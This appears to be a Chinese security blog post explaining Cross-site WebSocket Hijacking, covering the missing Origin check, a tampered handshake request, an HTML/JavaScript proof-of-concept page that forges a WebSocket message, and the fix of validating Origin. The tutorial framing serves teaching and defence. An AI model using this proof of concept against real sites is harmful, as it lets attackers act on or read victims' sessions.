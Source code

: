 ```yaml
---
layout: post
author: Vulkey_Chen
title: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
date: 2019-03-20
music-id: 28661853
permalink: /archives/2019-03-20/1
description: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
---
```


# WebSocket 跨域劫持漏洞

WebSocket 跨域劫持漏洞，英文名：**Cross-site WebSocket Hijacking**，漏洞类型：全能型CSRF（可读、可写）。

## 了解WebSocket

### Websocket 优点

1. 支持双向通信，实时性更强。
2. 更好的二进制支持。
3. 较少的控制开销。连接创建后，ws客户端、服务端进行数据交换时，协议控制的数据包头部较小。在不包含头部的情况下，服务端到客户端的包头只有2~10字节（取决于数据包长度），客户端到服务端的话，需要加上额外4字节的掩码。而HTTP协议每次通信都需要携带完整的头部。
4. 支持扩展。ws协议定义了扩展，用户可以扩展协议，或者实现自定义的子协议。（比如支持自定义压缩算法等）

### Websocket 如何建立连接

画了一张图让你了解：

![websocket](/images/CSWSH/0.png)


## 漏洞产生

建立Websocket连接无验证。

### 案例

1.如下请求：

```http
GET / HTTP/1.1
Host: localhost:8080
Origin: http://127.0.0.1:3000
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: w4v7O6xFTi36lq3RNcgctw==

```

篡改Origin，发现没有对Origin进行验证，也可以跨域进行协议升级。

2.进一步验证

2.1获取到了一个发送评论的请求 （**使用BurpSuite->Proxy模块->Websockets History查看，这里是对应的 Direction值为Outgoing为发出的请求，Incoming为发出请求对应的响应信息**）

![test](/images/CSWSH/1.png)

2.2使用JavaScript创建Websocket请求

**如上图所示Outgoing的内容为“我是帅key的可爱小迷弟”，那么发送的数据就是这个**。

```html
<meta charset="utf-8">
<script>
function ws_attack(){
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
		ws.close();
	};
}
ws_attack();
</script>
```

2.3验证发现可以请求并成功进行重放，存在Websocket跨域劫持

（这里只是简单的评论请求，危害就是：点我链接让你评论我想评论的，试想：如果是修改密码的WebSocket请求存在劫持那么问题就大了～）

## 漏洞利用

攻击流程跟以往的交互类漏洞没什么区别（点我链接读取你XXX、点我链接让你XXX）：

![attack](/images/CSWSH/2.png)

来一个圈子"铸剑实战靶场"的截图，自我体会：

![success](/images/CSWSH/3.png)

### PoC代码编写

```html
<meta charset="utf-8">
<script>
function ws_attack(){//自定义函数ws_attack
    //定义函数功能
    //创建WebSocket并赋值给ws变量
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
        //当ws(WebSocket)处于连接状态时执行
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
        //当ws(WebSocket)请求有响应信息时执行
        //注意：响应的信息可以通过evt.data获取！例如：alert(evt.data);
		ws.close();
	};
}
ws_attack();//执行ws_attact函数
</script>
```

## 修复方法

综合建议：校验Origin头

# Reference

https://www.cnblogs.com/chyingp/p/websocket-deep-in.html
